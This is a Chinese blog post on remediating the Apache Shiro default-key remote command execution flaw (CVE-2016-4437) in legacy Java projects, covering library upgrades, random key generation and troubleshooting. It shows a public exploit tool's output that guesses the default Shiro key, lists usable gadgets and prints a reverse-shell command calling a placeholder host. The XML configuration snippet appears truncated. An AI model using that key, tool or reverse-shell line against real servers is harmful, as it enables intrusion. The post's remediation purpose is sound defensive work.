




# Java 项目中修复 Apache Shiro 默认密钥致命令执行漏洞（CVE-2016-4437）详细说明 - rab3it - 博客园

> 原文：[`www.cnblogs.com/rab3it/p/14747468.html`](https://www.cnblogs.com/rab3it/p/14747468.html)

最近阿里云发了漏洞短信，需要在以后的老项目中修复漏洞，修复了 6 套 Java 项目，不同项目修复方式有所不同，特写此篇博客，以作备忘，欢迎大家留言讨论。

# 1.漏洞说明

## 1.1 阿里云漏洞短信内容


## 1.2 阿里云漏洞详细报告







# 2.详细修复步骤

## 2.1 下载漏洞验证工具

漏洞验证工具：[`github.com/wyzxxz/shiro_rce，或者从 http://www.zrscsoft.com/sitepic/12120.html 中下载`](https://github.com/wyzxxz/shiro_rce%EF%BC%8C%E6%88%96%E8%80%85%E4%BB%8Ehttp://www.zrscsoft.com/sitepic/12120.html%E4%B8%AD%E4%B8%8B%E8%BD%BD)

下载的 shiro_tool.jar 文件，建设保存在 D:\download 目录，即


根据阿里云漏洞报告，

执行 D:\work\jdk1.8.0\bin\java.exe -jar shiro_tool.jar http://{您的 IP 地址}命令，

具体如下：

> D:\download>D:\work\jdk1.8.0\bin\java.exe -jar shiro_tool.jar http://{您的 IP 地址}
> [-] target: http://{您的 IP 地址}
> [-] target is use shiro
> [-] start guess shiro key...
> [-] use shiro key: kPH+bIxk5D2deZiIxcaaaA==
> [-] check CommonsBeanutils1
> [-] check CommonsCollections1
> [-] check CommonsCollections2
> [-] check CommonsCollections3
> [-] check CommonsCollections4
> [-] check CommonsCollections5
> [-] check CommonsCollections6
> [-] check CommonsCollections7
> [-] check CommonsCollections8
> [-] check CommonsCollections9
> [-] check CommonsCollections10
> [-] check Groovy1
> [-] check JSON1
> [-] check Spring1
> [-] check Spring2
> [-] check Jdk7u21
> [-] check JRMPClient
> [-] check ROME
> [-] check Clojure
> [*] find: CommonsCollections10 can be use
> [*] find: JRMPClient can be use
> 0: CommonsCollections10
> 1: JRMPClient
> [-] please enter the number(0-1)
> > 0
> [-] use gadget: CommonsCollections10
> [*] command example: bash -i >& /dev/tcp/xx.xx.xx.xx/80 0>&1 , command example: curl dnslog.xxx.com
> [*] if need base64 command, input should startwith bash=/powershell=/python=/perl=
> [-] please enter command, enter q or quit to quit, enter back to re-choose gadget
> > quit
> [-] quit
> 
> D:\download>

# 3.Java 项目修改

## 3.1 修改前注意事项

shiro 需要升级到 1.7.0

shiro1.7.0 的 spring 相关 jar 要求在 4.0 版本以上

spring4.0 以上版本要求 jdk1.8.0 以上

## 3.2Jar 包准备

shiro1.7.0 的 jar 如下：

> shiro-core-1.7.0.jar
> 
> shiro-ehcache-1.7.0.jar
> 
> shiro-spring-1.7.0.jar
> 
> shiro-web-1.7.0.jar

spring 相关 jar 要求在 4.0 版本以上，这里建设更新到 spring-5.2.10.RELEASE 版本，

spring-5.2.10.RELEASE 版本相关的 jar，请参考 https://blog.csdn.net/jlq_diligence/article/details/109771710 博客，自行下载

我这边需要的 jar 大致如下，不同的项目有所不同



## 3.3 增加一个自定义秘钥代码

参考官方的：org.apache.shiro.crypto.AbstractSymmetricCipherService#generateNewKey()

```
import org.apache.shiro.codec.Base64;
import org.apache.shiro.crypto.AbstractSymmetricCipherService;
import org.aspectj.apache.bcel.generic.IINC;

import javax.crypto.KeyGenerator;
import javax.crypto.SecretKey;

import java.security.Key;
import java.security.NoSuchAlgorithmException;

/**
* shiro 秘钥生成器
*
* @author admin shiro 有自己的随机生成秘钥的方法 秘钥生成器
*
*
*/
public class MySymmetricCipherService extends AbstractSymmetricCipherService {

protected MySymmetricCipherService(String algorithmName) {
super(algorithmName);
// TODO Auto-generated constructor stub
}

public static byte[] generateNewKeyFromSuper() {
KeyGenerator kg;
try {
kg = KeyGenerator.getInstance("AES");
} catch (NoSuchAlgorithmException var5) {
String msg = "Unable to acquire AES algorithm. This is required to function.";
throw new IllegalStateException(msg, var5);
}

kg.init(128);
SecretKey key = kg.generateKey();
byte[] encoded = key.getEncoded();
return encoded;
}

/**
* 使用 shiro 官方的生成
* org.apache.shiro.crypto.AbstractSymmetricCipherService#generateNewKey()
* @return
*/
public static byte[] getCipherKey() {
MySymmetricCipherService mySymmetricCipherService = new MySymmetricCipherService("AES");
Key gKey = mySymmetricCipherService.generateNewKey();
return gKey.getEncoded();
}

public static void main(String[] args) {
MySymmetricCipherService mySymmetricCipherService = new MySymmetricCipherService("AES");
Key gKey = mySymmetricCipherService.generateNewKey();
System.out.println("key: " + gKey.getEncoded());
System.out.println("key Base64.encodeToString: " + Base64.encodeToString(gKey.getEncoded()));

byte[] decodeValue = org.apache.shiro.codec.Base64.decode("t0EWNQWKMXYzKTDSQpNNfg==");
System.out.println("decodeValue: " + decodeValue);
}
} 
```

## 3.4 修改 shiro 配置

例如 shiro 配置文件为 spring-shiro.xml，不同项目，文件名有所不同，修改的位置，大致如下

> <bean id="securityManager" class="org.apache.shiro.web.mgt.DefaultWebSecurityManager"></bean><bean id="rememberMeManager" class="org.apache.shiro.web.mgt.CookieRememberMeManager"></bean><bean id="rememberMeCookie" class="org.apache.shiro.web.servlet.SimpleCookie"><constructor-arg value="rememberMe"></constructor-arg></bean>

## 3.5 修复后漏洞检测结果


# 4.常见问题

## 4.1Unsupported major.minor version 52.0

【现象】

java.lang.UnsupportedClassVersionError: org/apache/shiro/crypto/AbstractSymmetricCipherService : Unsupported major.minor version 52.0
at java.lang.ClassLoader.defineClass1(Native Method)
at java.lang.ClassLoader.defineClass(ClassLoader.java:800)
at java.security.SecureClassLoader.defineClass(SecureClassLoader.java:142)
at java.net.URLClassLoader.defineClass(URLClassLoader.java:449)
at java.net.URLClassLoader.access$100(URLClassLoader.java:71)
at java.net.URLClassLoader$1.run(URLClassLoader.java:361)
at java.net.URLClassLoader$1.run(URLClassLoader.java:355)
at java.security.AccessController.doPrivileged(Native Method)
at java.net.URLClassLoader.findClass(URLClassLoader.java:354)
at java.lang.ClassLoader.loadClass(ClassLoader.java:425)
at sun.misc.Launcher$AppClassLoader.loadClass(Launcher.java:308)
at java.lang.ClassLoader.loadClass(ClassLoader.java:358)

【解决方法】JDK 更换为 JDK1.8

详细描述如下：

当改变了 jdk 版本时，在编译 java 时，会遇到 Unsupported major.minor version 错误。
jdk 版本和 stanford parser 对应关系

JDK 版本和 Java 编译器内部的版本号

J2SE 8 = 52,
J2SE 7 = 51,
J2SE 6.0 = 50,
J2SE 5.0 = 49,
JDK 1.4 = 48,
JDK 1.3 = 47,
JDK 1.2 = 46,
JDK 1.1 = 45

## 4.2org.springframework.web.servlet.mvc.annotation.AnnotationMethodHandlerAdapter 报错

【解决方法】

<bean class="org.springframework.web.servlet.mvc.annotation.AnnotationMethodHandlerAdapter">修改为： <bean class="org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerAdapter">## 4.3 java.lang.NoClassDefFoundError: org/owasp/encoder/Encode

【现象】

java.lang.NoClassDefFoundError: org/owasp/encoder/Encode
org.apache.shiro.web.filter.PathMatchingFilter.pathsMatch(PathMatchingFilter.java:134)
org.apache.shiro.web.filter.PathMatchingFilter.preHandle(PathMatchingFilter.java:186)
org.apache.shiro.web.servlet.AdviceFilter.doFilterInternal(AdviceFilter.java:131)
org.apache.shiro.web.servlet.OncePerRequestFilter.doFilter(OncePerRequestFilter.java:125)
org.apache.shiro.web.servlet.ProxiedFilterChain.doFilter(ProxiedFilterChain.java:66)
org.apache.shiro.web.servlet.AbstractShiroFilter.executeChain(AbstractShiroFilter.java:4
【解决方法】
添加 encoder-1.2.2.jar

详细操作和文件，可以参考 http://www.zrscsoft.com/sitepic/12120.html</bean></bean>